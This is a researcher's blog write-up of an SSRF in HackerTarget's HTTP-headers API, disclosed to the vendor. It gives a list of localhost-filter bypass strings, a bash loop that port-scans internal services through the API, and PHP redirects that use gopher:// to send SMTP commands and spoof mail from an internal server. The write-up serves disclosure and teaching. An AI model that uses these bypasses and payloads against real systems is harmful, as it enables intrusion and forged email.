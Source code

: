 ```yaml
---
layout: post
title: "Hacking the Hackers: Leveraging an SSRF in HackerTarget"
---
```

### &#128187;&nbsp;Introduction:
This is a write-up of an SSRF I accidentally found in HackerTarget and leveraged to get access to internal services! Please **note** that they **don't** have an active bug bounty program.<br>
<h4>&#129300; What is HackerTarget?</h4>
<a href="https://hackertarget.com" style="color:#E11D1D">HackerTarget</a> is a service that provides access to online vulnerability scanners and tools used by many security professionals and "makes securing your systems easier". They also are the creators of <a href="https://dnsdumpster.com/" style="color:#E11D1D">DNSDumpster</a>, which is utilized in several recon tools.
<br><br>
<h4>&#128565; SSRF:</h4>
*Server-Side Request Forgery* (SSRF) is a vulnerability in which an attacker can send a controlled, crafted request via a vulnerable application. We can communicate with different services running on different protocols by utilizing URI schemes such as dict://, gopher://, ftp://, and many more. Getting a server to make a request isn't a vulnerability in itself, but becomes one when you can make requests to things you wouldn't or shouldn't normally have access to such as internal networks or internal services.
<br><br>
### &#128270;&nbsp;Finding the vulnerability:
I was using DNSDumpster for recon during a bug hunting session, and I noticed there was a button of a globe similar to &#127758; that said "Get HTTP Headers":
<br>
<br>
![HT-HTTPHeaders](/images/ht-httpheaders.png "HTTP Headers function")
<br><br>
It made a call to `https://api.hackertarget.com/httpheaders/?q=<target>` and displayed the HTTP Headers of a simple **GET** request sent to the target server.
<br><br>
![HT-API-Call](/images/api-result.png "HackerTarget")
<br><br>I was obviously intrigued, so I tried querying 127.0.0.1! The API dumped the HTTP request and the query went through! I then tried to see if I could get the SSH version by querying **127.0.0.1:22**
<br><br>Response:<br><br>
![HT-SSH](/images/ht-ssh.png "HackerTarget")
<br><br>
I initially reported it as is, knowing I could hit internal services if there were any. They thanked me for the heads up and told me to check the patch they issued. I checked it, and it was easy to bypass: it was merely blocking 127.0.0.1. Here are a few of the bypasses I used:
```
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me
```
I informed them that there **isn't** a way to validate the query just by using string-based checks, so I suggested that they **resolve** the domains and **check** them against local IP ranges. They agreed and said they would think about it.
<br><br>
About 10 days later I asked if they had issued another patch or not, and the response was:
> "It is on my todo list. Not critical though as there are no local services that could be hit with it."

<center>
<h4>&#128527;&nbsp;challenge accepted.</h4>
</center>
<br>

### &#128526;&nbsp;Leveraging like a Boss
I decided to write a bash script that queried the API with one of the bypasses and with a port number to see if I could see what internal services it was running:
```bash
#!/usr/bin/env bash
for port in `seq 1 9999`
do
	echo -e "\n\n[+] Checking Port: "$port"\n"
	curl 'https://api.hackertarget.com/httpheaders/?q=http://'$1':'$port && echo -e "\n"
done
```
I ran it: `âžœ root@pwn  ~  ./ht 0177.1`

HackerTarget limits 25 API queries per IP, so my script only showed the ports 1 - 25. The only responses I got were from SSH running on port 22 and I luckily got a response from the SMTP server on port 25, which I had totally overlooked before!<br><br>
![HT-POSTFIX](/images/ht-postfix.png "HackerTarget")
<br>
#### &#128104;&zwj;&#128187; &nbsp;SMTP?
 - SMTP stands for <font id="highlighter">Simple Mail Transfer Protocol</font>.
 - It is a <a href="https://en.wikipedia.org/wiki/Internet_protocol_suite" rel="noopener noreferrer" target="_blank"><font id="highlighter">TCP/IP</font></a> protocol that's used for sending emails. (who would've guessed? &#128514;)
 - Usually it's used along with either <a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Post_Office_Protocol"><font id="highlighter">pop3</font></a> or<a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol"> <font id="highlighter">imap</font></a>, which are used to receive emails.


I knew I would be able to hit the service with this SSRF, but I wasn't positive that I would be able to send the valid commands needed to send emails from it. I then tried deducing which wrappers were supported and enabled besides **http://** and **https://**. <br><br>
I tried using <font id="highlighter2">dict://</font> right away and was able to get the libcurl version, but that wasn't very helpful. Next, I created a PHP file on my server to initiate a redirect to another port with the <font id="highlighter2">gopher://</font> wrapper:<br>
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```
<br>
In a nutshell, the gopher:// protocol sends 1 character, a new line (CR+LF), and the remaining data, which allows us to send a **multiline request**. <br><br>
I started netcat and checked the API again: `https://api.hackertarget.com/httpheaders/?q=http://sxcurity.pro/redirect.php`. It followed the redirect  and I received a multiline request on port 1337!
<br><br>This means I could send valid commands to the internal SMTP server!

### &#127881;&nbsp;The Finale
I created another PHP file on my server that would redirect the API to the internal SMTP server and issue the valid SMTP commands!
```php
<?php
        $commands = array(
                'HELO hackertarget.com',
                'MAIL FROM: <admin@hackertarget.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
<br><br>
I changed the query one last time: `https://api.hackertarget.com/httpheaders/?q=http://sxcurity.pro/smtp.php`
<br><br>
I went to my email, reloaded it once.
<br><br>
A new email popped up from "<font id="highlighter">admin@hackertarget.com</font>" with the subject "<font id="highlighter">@sxcurity</font>" and the message was "<font id="highlighter2">Corben was here, woot woot!</font>"
<br><br>
After yelling 'heck yeah!', I created a quick proof-of-concept video and I sent it over to HackerTarget.
<br> <br>Here's the video <font color="#2EB03D">&#128373;&#65039;</font><br>
<iframe width="580" height="370" src="https://www.youtube.com/embed/F_sC_OrSkIc" frameborder="0" gesture="media" allow="encrypted-media" allowfullscreen></iframe>
<br><br>The response?
> Nice work. Thanks for the PoC. I will finish mitigation on this and check other inputs too now.... you have opened my eyes to SSRF :)


<br><br>
It was a blast to leverage an SSRF on a target that everyone knows of and uses often!<br><br>

### &#9888;&#65039;&nbsp;Note:
They **DO NOT** have a bug bounty program, so please **DO NOT** test them without their permission!
<br><br>
Thanks for reading,<br><br>
**Corben Leo** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
